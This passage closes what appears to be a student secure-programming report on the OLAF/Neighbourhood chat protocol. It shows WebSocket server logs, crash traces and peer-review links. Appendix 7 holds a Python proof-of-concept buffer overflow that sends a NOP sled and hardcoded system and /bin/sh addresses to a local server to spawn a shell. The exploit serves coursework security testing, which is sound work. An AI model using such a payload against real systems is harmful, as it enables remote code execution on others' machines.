Received message: {"counter":0,"data":{"id":"test","public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEApOgesnHVEtsY2Uy8mbIs\np40Eonronr5s3zg4nluOuMCUDWpAdG0c0bi82ALw5BJUn94zD1bs90Rx1q5LGD1I\n6/hYMgG2zt4g5pKtG1oUJN4UkpUsn/54Kh5N7dUvnqZI+M17MaaGWwyoMuQf7vL6\nFht5KpmKRv7EADlfeJhy/pTuZHJeCKTpql+lKxEwOGhp69h67Oe+XTAOnplfQxJC\nANJYXZXr8t7Q4YUNYl/WCJk5f8RTqduS5PjnLGV45xlTsOHI5VUXTKk1/gA749jZ\ntNT0xibZkZN99OVGGepWWX/e+MGENNvIidPYTV+W1UtUG5QzNNZx8lV/iMBO+j7u\n2QIDAQAB\n-----END PUBLIC KEY-----\n","type":"hello"},"signature":"ZANxID4JxyvzRStBEcwR183CLFyUyiHv3iHn7Uv9d73bwwoi2TZgE7dszC8fvRGd\nMpKW/bOimGjk/GqjIZT9PNvWo19bOdnX30GKGfPq1o+vEH6ZPE+qQR4l+p25GCIB\npHlylTvDd+GlmfL+RJ3OjG9GD3RC6a/aaxHCqjrnwHsz2tL8Ey5MgSH7uEro3Vld\no7d77dCU3uTjPfKbBU6VccxolYiWb9lWvU+3HvOITLFF3s5S0IKQs8qO3GHEUFYV\n5zfS6nfUmEXJcYnB2Bd6le2ajxpJT2hniK4t/SWnqKkc0Z6NidtEnuvW8Bph8a0a\nCO3ZZyGmF7m3EPP9VFoY2A==\n","type":"signed_data"}
Client connected with public key: -----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEApOgesnHVEtsY2Uy8mbIs
p40Eonronr5s3zg4nluOuMCUDWpAdG0c0bi82ALw5BJUn94zD1bs90Rx1q5LGD1I
6/hYMgG2zt4g5pKtG1oUJN4UkpUsn/54Kh5N7dUvnqZI+M17MaaGWwyoMuQf7vL6
Fht5KpmKRv7EADlfeJhy/pTuZHJeCKTpql+lKxEwOGhp69h67Oe+XTAOnplfQxJC
ANJYXZXr8t7Q4YUNYl/WCJk5f8RTqduS5PjnLGV45xlTsOHI5VUXTKk1/gA749jZ
tNT0xibZkZN99OVGGepWWX/e+MGENNvIidPYTV+W1UtUG5QzNNZx8lV/iMBO+j7u
2QIDAQAB
-----END PUBLIC KEY-----

Client connected with name: test
Received message: {"counter":0,"data":{"id":"test","public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEApOgesnHVEtsY2Uy8mbIs\np40Eonronr5s3zg4nluOuMCUDWpAdG0c0bi82ALw5BJUn94zD1bs90Rx1q5LGD1I\n6/hYMgG2zt4g5pKtG1oUJN4UkpUsn/54Kh5N7dUvnqZI+M17MaaGWwyoMuQf7vL6\nFht5KpmKRv7EADlfeJhy/pTuZHJeCKTpql+lKxEwOGhp69h67Oe+XTAOnplfQxJC\nANJYXZXr8t7Q4YUNYl/WCJk5f8RTqduS5PjnLGV45xlTsOHI5VUXTKk1/gA749jZ\ntNT0xibZkZN99OVGGepWWX/e+MGENNvIidPYTV+W1UtUG5QzNNZx8lV/iMBO+j7u\n2QIDAQAB\n-----END PUBLIC KEY-----\n","type":"hello"},"signature":"ZANxID4JxyvzRStBEcwR183CLFyUyiHv3iHn7Uv9d73bwwoi2TZgE7dszC8fvRGd\nMpKW/bOimGjk/GqjIZT9PNvWo19bOdnX30GKGfPq1o+vEH6ZPE+qQR4l+p25GCIB\npHlylTvDd+GlmfL+RJ3OjG9GD3RC6a/aaxHCqjrnwHsz2tL8Ey5MgSH7uEro3Vld\no7d77dCU3uTjPfKbBU6VccxolYiWb9lWvU+3HvOITLFF3s5S0IKQs8qO3GHEUFYV\n5zfS6nfUmEXJcYnB2Bd6le2ajxpJT2hniK4t/SWnqKkc0Z6NidtEnuvW8Bph8a0a\nCO3ZZyGmF7m3EPP9VFoY2A==\n","type":"signed_data"}
Received message: {"type":"client_list_request","user":"test"}
Received message: {"data":{"type":null},"type":"client_list_request","user":"test"}
Received message: {"counter":2,"data":{"message":"hello","sender":"zt2JlHVi5d2J43/Av64tPojnGQEJdp+lfUZSmA51Z4g=\n","type":"public_chat"},"signature":"ci3ezjk0WkZh1L3wNFYr66j9mVPmOUTmhb+1sKAHzF6xylxLCmMPbZzDEkCNEgqF\nclg49YYsYbZEjNne2l2zFHRIyvSE67P3NuRVAsjrUD0K84ob8qK3in12UNYQYl8J\nMigUzDrPLBgs5WTKPjgs4/fSmRY5UZ6rXe+W7gjgs2iC+gAC4qnCz0kLqCoxpMLe\nciDcgGgX5kfRklmUcx9IfBX8Tuz5hFfMUtcLwaJgiRbn76mCps63/FkIfuTTQWPr\npgvFCZ225txJ1LupDMVkdKSRkEIm/oqnmX7XD8tWDLRDEzYMt4FImF0nflQApcmr\n8XxeQPkxKcMUa8TxJADNww==\n","type":"signed_data"}
public chat received
Received message: {"counter":2,"data":{"message":"hello","sender":"zt2JlHVi5d2J43/Av64tPojnGQEJdp+lfUZSmA51Z4g=\n","type":"public_chat"},"signature":"ci3ezjk0WkZh1L3wNFYr66j9mVPmOUTmhb+1sKAHzF6xylxLCmMPbZzDEkCNEgqF\nclg49YYsYbZEjNne2l2zFHRIyvSE67P3NuRVAsjrUD0K84ob8qK3in12UNYQYl8J\nMigUzDrPLBgs5WTKPjgs4/fSmRY5UZ6rXe+W7gjgs2iC+gAC4qnCz0kLqCoxpMLe\nciDcgGgX5kfRklmUcx9IfBX8Tuz5hFfMUtcLwaJgiRbn76mCps63/FkIfuTTQWPr\npgvFCZ225txJ1LupDMVkdKSRkEIm/oqnmX7XD8tWDLRDEzYMt4FImF0nflQApcmr\n8XxeQPkxKcMUa8TxJADNww==\n","type":"signed_data"}
Received message: {"clients":[{"client_id":1001,"public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA4n8+2Vi46xG4qwfJXR+6\ntQR4TL6Be6jwfp6oVGzq9Aq19kOu+tLKW3IKgoUUha1XqfBYUox0kFqPBwjhxSvT\nFH23TMHhrqhUHHg3QwW1u8wEk6gEIYo46LoEyANiSymRKFoP/1WxcRKrfNlzRD2R\nMpwlqhVa1T24QmPb/DkYTGmrqNGUI0ZkretRHmF8M+Nej8Knb+CBHiwzUNRDRRub\nVhFzsUvPdBR5GEU8nmt86iEkb+JAe80MtKYbynqyxmEuvgMw8qYZxofn9XkGD9Br\nUcInpXFDlKBWyHBUFTfzTtBvqG0YIFFK/peLAsqz2WglOXuq07MNPRlp7/vn/CDV\nNQIDAQAB\n-----END PUBLIC KEY-----\n"}],"type":"client_update"}
Received message: {"clients":[{"client_id":1001,"public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA4n8+2Vi46xG4qwfJXR+6\ntQR4TL6Be6jwfp6oVGzq9Aq19kOu+tLKW3IKgoUUha1XqfBYUox0kFqPBwjhxSvT\nFH23TMHhrqhUHHg3QwW1u8wEk6gEIYo46LoEyANiSymRKFoP/1WxcRKrfNlzRD2R\nMpwlqhVa1T24QmPb/DkYTGmrqNGUI0ZkretRHmF8M+Nej8Knb+CBHiwzUNRDRRub\nVhFzsUvPdBR5GEU8nmt86iEkb+JAe80MtKYbynqyxmEuvgMw8qYZxofn9XkGD9Br\nUcInpXFDlKBWyHBUFTfzTtBvqG0YIFFK/peLAsqz2WglOXuq07MNPRlp7/vn/CDV\nNQIDAQAB\n-----END PUBLIC KEY-----\n"}],"data":{"type":null},"type":"client_update"}
Received message: {"counter":3,"data":{"message":"hello","sender":"zt2JlHVi5d2J43/Av64tPojnGQEJdp+lfUZSmA51Z4g=\n","type":"public_chat"},"signature":"FvGyzQ5Dg3Uhc/3pb6OJQj9yRiqdGvCZXpdK1Eon/cEAMGfjDynTRBtTriNCbgw4\nR4CEqodeO/UFoxgE7P3+MEo/rMmkkXaN8HZmUMZX2cQ32Qj3ULHADCV1poyKObjC\nXAT2JiF0RoGYkhaah+CWthKFrjrgfCA+weNJjR09cuNYyFhI7vIw0vB2XjejHebs\nw/CPUTR2XyjyGJKwB7lkqz9NqCQzYHvnr/r7U4AV9WgycypvlGz8FJJcEcUYjJgo\nq2d7DdDw2eEbs8OX/N7XGPFLpra6yA9dWPRwfuHg5xJ5ikFAwkgSMwpTzpRNAxDb\n7gYrAW7n9qTK9ODtH1EGFQ==\n","type":"signed_data"}
public chat received
Received message: {"counter":3,"data":{"message":"hello","sender":"zt2JlHVi5d2J43/Av64tPojnGQEJdp+lfUZSmA51Z4g=\n","type":"public_chat"},"signature":"FvGyzQ5Dg3Uhc/3pb6OJQj9yRiqdGvCZXpdK1Eon/cEAMGfjDynTRBtTriNCbgw4\nR4CEqodeO/UFoxgE7P3+MEo/rMmkkXaN8HZmUMZX2cQ32Qj3ULHADCV1poyKObjC\nXAT2JiF0RoGYkhaah+CWthKFrjrgfCA+weNJjR09cuNYyFhI7vIw0vB2XjejHebs\nw/CPUTR2XyjyGJKwB7lkqz9NqCQzYHvnr/r7U4AV9WgycypvlGz8FJJcEcUYjJgo\nq2d7DdDw2eEbs8OX/N7XGPFLpra6yA9dWPRwfuHg5xJ5ikFAwkgSMwpTzpRNAxDb\n7gYrAW7n9qTK9ODtH1EGFQ==\n","type":"signed_data"}
localhost:9002
connection open
Client connected.
Received message: {"name":"1","type":"init"}
Received message: {"data":{"type":null},"name":"1","type":"init"}
Received message: {"counter":0,"data":{"id":"1","public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwX1c6DGQOcby/ObcPND1\n7L5dZG7vgHGhP9ohCoBXP76ceoKPD6ATjSX8NmOELdAapqFbOurn0A2jfA4v7s84\nR1yz6IPb2UK8bhTj6LWntX6m5+CqE+KTfOoqpzwiM0HoSJXrfPScDFzk1dlf8m2+\nlI7LgtE9DJsu1aGeWUlcBq2owTBTMefF6iXjQiCTkzLJEpK8tOVNc8g9obxVllhK\nxMH/8qgx/cWg7DEN91k8FmKoKCd6Tg2NcfoQibg3d3wcqAUuYCiTAXhfnpS6ZxHM\n7uEUPe1sJ73MKbGi3Tl2rSoKrp3nH8mvEjEFEjaheFInro1ZTl1oJivxiDT/l28k\nHwIDAQAB\n-----END PUBLIC KEY-----\n","type":"hello"},"signature":"iVTcSY8kYdV+zH6IaPA3ovcEdrYUXbOOMV1NKZiL95wcbw3TsRIxEZUoHlDjVNKs\nIwGOq8057v1354rCMdY3+PYjuGE7bKdKraLcXgs5n5Bahq12KdOKmlz9JOKRj81/\neD7ukB8mVfiVGR3bVauSvoK/BreTJNLmYUQ349IJKAay2QntzM0aZ4VE13yP1mMM\nAyp60MxdLkDqIrNU1fYT1wA7c0S7K7231RhDhHaXeNEdFu5EteU8gAINsHo7Dnka\nH1KMiv31U+3UrylFDFUJl09Nu01wu4HTn4prwX68zfYwXzfUaB83kd8W33kxyRzK\n0tw5LpxXiK87J5e5+/DX0A==\n","type":"signed_data"}
Client connected with public key: -----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwX1c6DGQOcby/ObcPND1
7L5dZG7vgHGhP9ohCoBXP76ceoKPD6ATjSX8NmOELdAapqFbOurn0A2jfA4v7s84
R1yz6IPb2UK8bhTj6LWntX6m5+CqE+KTfOoqpzwiM0HoSJXrfPScDFzk1dlf8m2+
lI7LgtE9DJsu1aGeWUlcBq2owTBTMefF6iXjQiCTkzLJEpK8tOVNc8g9obxVllhK
xMH/8qgx/cWg7DEN91k8FmKoKCd6Tg2NcfoQibg3d3wcqAUuYCiTAXhfnpS6ZxHM
7uEUPe1sJ73MKbGi3Tl2rSoKrp3nH8mvEjEFEjaheFInro1ZTl1oJivxiDT/l28k
HwIDAQAB
-----END PUBLIC KEY-----

Client connected with name: 1
Received message: {"counter":0,"data":{"id":"1","public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwX1c6DGQOcby/ObcPND1\n7L5dZG7vgHGhP9ohCoBXP76ceoKPD6ATjSX8NmOELdAapqFbOurn0A2jfA4v7s84\nR1yz6IPb2UK8bhTj6LWntX6m5+CqE+KTfOoqpzwiM0HoSJXrfPScDFzk1dlf8m2+\nlI7LgtE9DJsu1aGeWUlcBq2owTBTMefF6iXjQiCTkzLJEpK8tOVNc8g9obxVllhK\nxMH/8qgx/cWg7DEN91k8FmKoKCd6Tg2NcfoQibg3d3wcqAUuYCiTAXhfnpS6ZxHM\n7uEUPe1sJ73MKbGi3Tl2rSoKrp3nH8mvEjEFEjaheFInro1ZTl1oJivxiDT/l28k\nHwIDAQAB\n-----END PUBLIC KEY-----\n","type":"hello"},"signature":"iVTcSY8kYdV+zH6IaPA3ovcEdrYUXbOOMV1NKZiL95wcbw3TsRIxEZUoHlDjVNKs\nIwGOq8057v1354rCMdY3+PYjuGE7bKdKraLcXgs5n5Bahq12KdOKmlz9JOKRj81/\neD7ukB8mVfiVGR3bVauSvoK/BreTJNLmYUQ349IJKAay2QntzM0aZ4VE13yP1mMM\nAyp60MxdLkDqIrNU1fYT1wA7c0S7K7231RhDhHaXeNEdFu5EteU8gAINsHo7Dnka\nH1KMiv31U+3UrylFDFUJl09Nu01wu4HTn4prwX68zfYwXzfUaB83kd8W33kxyRzK\n0tw5LpxXiK87J5e5+/DX0A==\n","type":"signed_data"}
Client disconnected.
Connected to server at ws://localhost:9002
Enter serverip:port to connect to or type 'exit' to quit: terminate called after throwing an instance of 'websocketpp::exception'
  what():  Bad Connection
Aborted
```
### Our server:
```
[2024-10-09 16:35:13] [devel] endpoint constructor
[2024-10-09 16:35:13] [devel] server constructor
Starting client thread...

Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...

Successfully connected to ws://127.0.0.1:9003
> Server hello sent

Sent client update request to server 2
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Connection to ws://127.0.0.1:9004 failed, retrying in 500ms...
Exceeded retry limit. Giving up on connecting to ws://127.0.0.1:9004

Connection initiated from: 127.0.0.1:50550
Received message: {"counter":12345,"data":"{\"public_key\":\"-----BEGIN PUBLIC KEY-----\\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA4n8+2Vi46xG4qwfJXR+6\\ntQR4TL6Be6jwfp6oVGzq9Aq19kOu+tLKW3IKgoUUha1XqfBYUox0kFqPBwjhxSvT\\nFH23TMHhrqhUHHg3QwW1u8wEk6gEIYo46LoEyANiSymRKFoP/1WxcRKrfNlzRD2R\\nMpwlqhVa1T24QmPb/DkYTGmrqNGUI0ZkretRHmF8M+Nej8Knb+CBHiwzUNRDRRub\\nVhFzsUvPdBR5GEU8nmt86iEkb+JAe80MtKYbynqyxmEuvgMw8qYZxofn9XkGD9Br\\nUcInpXFDlKBWyHBUFTfzTtBvqG0YIFFK/peLAsqz2WglOXuq07MNPRlp7/vn/CDV\\nNQIDAQAB\\n-----END PUBLIC KEY-----\\n\",\"type\":\"hello\"}","signature":"uUbsrfbwEsAErQAj3PTrl10DaJQPW45hpd+FLM6KqKXGLlJN4Sy++kL0gWIjyr9mjMqlGmKdT5e2TywMG7YpI/3s1bWq0r2J8HFyXX+F+5LkvVmaKtj9tkBpZomSTyz8SpK8bTbEGOxpwkpOZoi+LtEBR5bBsc585HYO1jZawBhqMNaUIScHI2yie+0Kyc0GmEqACGipT0sBbM/hQxdpHgsKqTtQL/6qdJh2ocN+tkBQw7wx5++54oSuikc1jJALOdxVKxZbQm6fFKc0YHNCWBgEEKF6hbPQsnWJLb6IN0G3O9N4sePxsq/KT3z6g/Q2/d9XqkEOhY3Ka2eVgQAgWw==","type":"signed_data"}
Cancelling client connection timer
Verified signature of client 1001
Sent client update to server 2

Received message: {"type":"client_list_request"}
Sent client list to client 1001


Connection initiated from: 127.0.0.1:50552
Received message: {"counter":6,"data":"{\"sender\":\"localhost\",\"type\":\"server_hello\"}","signature":"tz97EqY0VnZzj1xy29QnKi1hKaVJPAnkOXBb9Z8PNC3jKIJa6LHAPmGLlOQMWDbq\nXfqIMtLhohkOeXr9Wzkjpkn6moO7Nzm+JrrkbonT6p5XV+8ff8hjUu/svLKQ1W8D\ni9+wLfCjNVlMCKhV1CQeq8sK/y/Ik82vgJ/QAqGAIZxk5gWBTnPTn8arK6dkAKLL\nP/YFVfz/SRK+4xK0HR/HHgLn4UEJFhpuZrXhL8YP2ZpbZo5OCFeUDkGjdfNlIOkU\nOh4EBQMauEUqG660NLRlDdydjz2YEF9gsBjRU5Km3r4zy0ycc26Wv+ftS2a3nN6Q\nrgzijONR070K8ErHWLx80w==\n","type":"signed_data"}
Cancelling server connection timer
Invalid sender address entered in server hello
Received message: {"type":"client_update_request"}

Received message: {"clients":[{"client-id":"test","public-key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEApOgesnHVEtsY2Uy8mbIs\np40Eonronr5s3zg4nluOuMCUDWpAdG0c0bi82ALw5BJUn94zD1bs90Rx1q5LGD1I\n6/hYMgG2zt4g5pKtG1oUJN4UkpUsn/54Kh5N7dUvnqZI+M17MaaGWwyoMuQf7vL6\nFht5KpmKRv7EADlfeJhy/pTuZHJeCKTpql+lKxEwOGhp69h67Oe+XTAOnplfQxJC\nANJYXZXr8t7Q4YUNYl/WCJk5f8RTqduS5PjnLGV45xlTsOHI5VUXTKk1/gA749jZ\ntNT0xibZkZN99OVGGepWWX/e+MGENNvIidPYTV+W1UtUG5QzNNZx8lV/iMBO+j7u\n2QIDAQAB\n-----END PUBLIC KEY-----\n"},{"client-id":"1","public-key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwX1c6DGQOcby/ObcPND1\n7L5dZG7vgHGhP9ohCoBXP76ceoKPD6ATjSX8NmOELdAapqFbOurn0A2jfA4v7s84\nR1yz6IPb2UK8bhTj6LWntX6m5+CqE+KTfOoqpzwiM0HoSJXrfPScDFzk1dlf8m2+\nlI7LgtE9DJsu1aGeWUlcBq2owTBTMefF6iXjQiCTkzLJEpK8tOVNc8g9obxVllhK\nxMH/8qgx/cWg7DEN91k8FmKoKCd6Tg2NcfoQibg3d3wcqAUuYCiTAXhfnpS6ZxHM\n7uEUPe1sJ73MKbGi3Tl2rSoKrp3nH8mvEjEFEjaheFInro1ZTl1oJivxiDT/l28k\nHwIDAQAB\n-----END PUBLIC KEY-----\n"}],"type":"client_update"}
server: /usr/local/include/nlohmann/json.hpp:2147: const value_type& nlohmann::json_abi_v3_11_3::basic_json<ObjectType, ArrayType, StringType, BooleanType, NumberIntegerType, NumberUnsignedType, NumberFloatType, AllocatorType, JSONSerializer, BinaryType, CustomBaseClass>::operator[](const typename nlohmann::json_abi_v3_11_3::basic_json<ObjectType, ArrayType, StringType, BooleanType, NumberIntegerType, NumberUnsignedType, NumberFloatType, AllocatorType, JSONSerializer, BinaryType, CustomBaseClass>::object_t::key_type&) const [with ObjectType = std::map; ArrayType = std::vector; StringType = std::__cxx11::basic_string<char>; BooleanType = bool; NumberIntegerType = long int; NumberUnsignedType = long unsigned int; NumberFloatType = double; AllocatorType = std::allocator; JSONSerializer = nlohmann::json_abi_v3_11_3::adl_serializer; BinaryType = std::vector<unsigned char>; CustomBaseClass = void; nlohmann::json_abi_v3_11_3::basic_json<ObjectType, ArrayType, StringType, BooleanType, NumberIntegerType, NumberUnsignedType, NumberFloatType, AllocatorType, JSONSerializer, BinaryType, CustomBaseClass>::const_reference = const nlohmann::json_abi_v3_11_3::basic_json<>&; nlohmann::json_abi_v3_11_3::basic_json<ObjectType, ArrayType, StringType, BooleanType, NumberIntegerType, NumberUnsignedType, NumberFloatType, AllocatorType, JSONSerializer, BinaryType, CustomBaseClass>::value_type = nlohmann::json_abi_v3_11_3::basic_json<>; typename nlohmann::json_abi_v3_11_3::basic_json<ObjectType, ArrayType, StringType, BooleanType, NumberIntegerType, NumberUnsignedType, NumberFloatType, AllocatorType, JSONSerializer, BinaryType, CustomBaseClass>::object_t::key_type = std::__cxx11::basic_string<char>]: Assertion `it != m_data.m_value.object->end()' failed.
Aborted
```
## Appendix 7: PoC for BOF Exploit
```python
import asyncio
from websockets.sync.client import connect

def hello():
    with connect("ws://localhost:9002") as websocket:
        # Construct the message
        message = b"A" * (900) + b'\x90' * 5000   # 1024 'A's followed by 54 'A's +

        # Little-endian representations of the addresses
        address1 = b"\x70\x0d\x85\xf7\xff\x7f" #Address of system
        address2 = b"\xf0\x55\x84\xf7\xff\x7f" #Address of /bin/sh
        address3 = b"\x78\x86\x9d\xf7\xff\x7f" #Return address

        # Concatenate everything
        full_message = message + address1 + address2 + address3

        # Send the message
        websocket.send(full_message)

        # Receive response
        response = websocket.recv()
        print(f"Received: {response}")

hello()
```

## Appendix 8: OLAF/Neighbourhood Protocol Documentation
[Olaf Neighbourhood Protocol GitHub](https://github.com/xvk-64/2024-secure-programming-protocol)

## Appendix 9: OLAF/Neighbourhood Protocol Tut7 Documentation

[Tutorial 7 Olaf Neighbourhood Protocol GitHub](https://github.com/Aegizz/Tutorial-7-Olaf-Neighbourhood)

## Appendix 10: Feedback for Isaac Joynes

To shorten the already long appendix, here is [a link](https://github.com/Aegizz/Public-Reflection/blob/main/Peer%20Review3.pdf) to the feedback stored in our GitHub repo.

# Appendix 11: Feedback for Alex Mathew

To shorten the already long appendix, here is [a link](https://github.com/Aegizz/Public-Reflection/blob/main/Peer%20Review-1%20Lloyd.pdf) to the feedback stored in our GitHub repo.


# Biblography

CISA et al., 2024, 'Exploring Memory Safety in Critical Open Source Projects', viewed 15th October 2024, < https://www.cyber.gov.au/sites/default/files/2024-06/joint-guidance-exploring-memory-safety-in-critical-open-source-projects-508c.pdf >
